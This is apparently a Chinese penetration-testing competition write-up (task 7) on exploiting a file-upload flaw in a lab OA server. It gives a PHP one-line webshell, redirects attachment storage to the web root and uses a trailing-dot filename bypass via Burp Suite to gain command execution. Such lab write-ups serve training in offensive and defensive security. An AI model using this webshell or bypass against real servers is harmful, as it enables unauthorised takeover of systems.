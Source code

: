 ##### 任务7：OAgetshell(T1072 - 利用第三方软件部署工具、T1098 - 账户修改、监控)

```
本场景的第7个任务是利用OA服务器的文件上传漏洞获取主机命令执行权限。

上传文件的时，如果未对上传的文件进行严格的验证和过滤，就容易造成文件上传漏洞，上传脚本等。导致网站甚至整个服务器被控制，恶意的脚本文件又称为WebShell，WebShell具有强大的功能，如查看服务器目录、执行系统命令等。

该任务可以通过以下操作完成。
```

OA后台界面中点击`系统管理`>>`附件管理`，进入`添加存储目录`界面，`标识ID`，`描述`设置为`123`；根据提示可知网站根目录，目录填入`C:/MYOA/webroot/`，勾选`将所有新附件存至该目录`，配置完成后点击`添加`。

![image-20211112135159402419-1669009392907797.png](img/典型企业生产环境渗透赛 Local.assets/aff764e6bbfc87d795356d75f977a6ff.png)

添加完成后点击`返回`；在桌面新建文本文档，将一句话木马复制粘贴到文本文档后重命名为`shell.php`文件，一句话木马内容如下：

```
<?php @eval($_POST[cmd]);?>
```

![image-20211112154542357773-1669009394099811.png](img/典型企业生产环境渗透赛 Local.assets/713ffacb08c7d850962b9ea753361199.png)

回到OA后台，点击`组织`>>`系统管理员`，弹出对话框。

![image-20211112140137940026-1669009395276413.png](img/典型企业生产环境渗透赛 Local.assets/85ffdd07a24132ee090466114b0ec03e.png)

开启浏览器本地代理，burpsuite开启拦截。

![image-20211112140326832615-1669009396448697.png](img/典型企业生产环境渗透赛 Local.assets/8ffbb91209002dc355d8a603eb6f7579.png)

在系统管理员对话框上传木马文件：

![image-20211112140811605448-1669009397589244.png](img/典型企业生产环境渗透赛 Local.assets/8b373653e7b1cacd0bf960f9eda32944.png)

在burpsuite中点击`Forward`查找上传动作的信息：

![image-20211112141452717633-1669009398798942.png](img/典型企业生产环境渗透赛 Local.assets/08c2c8948507169c3b1c6e413fc94c8f.png)

点击`Action`>>`Send to Repeater`发送给`Repeater`，进入`Repeater`，修改`filename="shell.php"`为` filename="shell.php."`，完成后点击`Go`。

![image-20211112141733141842-1669009399980961.png](img/典型企业生产环境渗透赛 Local.assets/0572035d323c4a55aab9e8282409e7e3.png)

返回的响应如下：

![image-20221110111338799458-1669009401193498.png](img/典型企业生产环境渗透赛 Local.assets/6a747c06ce2d85abce8729b88f6c337f.png)

根据`state`参数为`SUCCESS`判断webshell上传成功，其路径可能和`url`参数有关，在`url`参数中发现引用`id`参数和`MODULE`参数，猜测webshel上传到`im`目录或其子目录下并与`YM`参数（年月）有关，尝试拼接webshell路径：

```
http://192.168.12.55/im/YM=后面的值/id参数下划线后面的值.shell.php
```

![image-20221110112953720989-1669009402480306.png](img/典型企业生产环境渗透赛 Local.assets/3677a14b9925f8eaad5b2fe9722e1ad1.png)
